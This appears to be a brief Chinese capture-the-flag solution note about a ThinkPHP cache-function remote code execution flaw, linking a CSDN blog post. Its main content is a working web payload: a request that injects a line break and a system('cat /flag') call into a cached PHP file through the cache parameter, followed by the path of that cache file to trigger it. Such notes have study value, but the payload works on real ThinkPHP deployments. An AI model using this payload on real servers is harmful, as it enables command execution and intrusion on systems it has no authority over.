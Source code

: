 # 知识点
[Thinkphp cache缓存函数远程代码执行漏洞_bfengj的博客-CSDN博客_thinkphp缓存漏洞](https://blog.csdn.net/rfrder/article/details/114599310)
# 思路
```php
public/index.php?s=index/index/rce&cache=%0d%0asystem('cat /flag');//
接着访问
runtime/cache/0f/ea6a13c52b4d4725368f24b045ca84.php
```

